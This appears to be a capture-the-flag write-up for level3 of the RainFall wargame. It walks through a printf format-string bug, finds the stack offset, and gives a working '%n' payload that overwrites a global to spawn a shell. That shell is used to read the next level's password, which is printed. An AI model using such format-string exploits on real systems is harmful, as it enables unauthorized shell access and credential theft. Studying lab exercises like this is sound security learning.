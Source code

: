  global variable oferite

   ```bash
   void v(void)
   
   {
     char local_20c [520];
     
     fgets(local_20c,0x200,stdin);
     printf(local_20c); unsafe, no format string!
     if (m == 0x40) {
       fwrite("Wait what?!\n",1,0xc,stdout);
       system("/bin/sh");
     }
     return;
   }
   ```

the allocated buffer is 520 + 4 = Offset to return address

we want to overide the m with 64 not hijacking EIP

from the gdb we have

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave  
   0x08048526 <+12>:    ret    
End of assembler dump.
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x218,%esp
   0x080484ad <+9>:     mov    0x8049860,%eax
   0x080484b2 <+14>:    mov    %eax,0x8(%esp)
   0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
   0x080484be <+26>:    lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:    mov    %eax,(%esp)
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    0x8049880,%eax
   0x080484e9 <+69>:    mov    %eax,%edx
   0x080484eb <+71>:    mov    $0x8048600,%eax
   0x080484f0 <+76>:    mov    %edx,0xc(%esp)
   0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
   0x080484fc <+88>:    movl   $0x1,0x4(%esp)
   0x08048504 <+96>:    mov    %eax,(%esp)
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   movl   $0x804860d,(%esp)
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave  
   0x08048519 <+117>:   ret    
End of assembler dump.
(gdb) x/s 0x8049860
0x8049860 <stdin@@GLIBC_2.0>:    ""
(gdb) x/s 0x804988c
0x804988c <m>:   ""
(gdb) 
```

Address of `m` = `0x804988c`

The `fgets()` copies the input to a local buffer of 0x208 bytes.

That buffer is passed directly to `printf()`

```
         |→ we fully control `printf(input)`.
```

So we can Include **addresses** in the input

Use format specifiers like `%<n>$n` to write to those addresses

lets find the right ofset :

```bash
for i in $(seq 1 50); do
    python -c "print('\x8c\x98\x04\x08' + '%${i}\$p')" | ./level3
done
```

making a shell to Find the position of our input on the stack

```bash

level3@RainFall:~$ for i in $(seq 1 50); do
>   python -c "print('\x8c\x98\x04\x08' + '%${i}\$p')" | ./level3
> done
�0x200
�0xb7fd1ac0
�0xb7ff37d0
�0x804988c  <- the on we looking for at position 4 
�0x70243525
�0xa
�0xb7fef305
�0xbffff5b8
�0xb7fde2d4
�0xb7fde334
�0x7
�(nil)
�0xb7fde000
�0xb7fff53c
�0xbffff5b8
�0x40
�0xb80
�(nil)
�0xb7fde714
�0x98
�0xb
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
�0xb7fe765d
�0xb7e3ebaf
�0x80482bb
�(nil)
�(nil)
�(nil)
�0xb7fe749f
�0xb7fd5000
�0x2
�0x8048268
�0xb7fffc00
�0xb7ffeff4
�0xb7ffeff4
�0xb7e2fc30
�0x1
�0xb7fdcb18
�0xb7fe7cac
�(nil)
�(nil)
�(nil)
�(nil)
�(nil)
```

the payload

```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + '%60c' + '%4\$n')" | ./level3
�                                                           
Wait what?!
```

let hang the program to cat the pass word or something else ;

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%60c' + '%4\$n')"; cat) | ./level3
�                                                           
Wait what?!
ls
ls: cannot open directory .: Permission denied
cd ../level4
cat .pass       
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

the token is


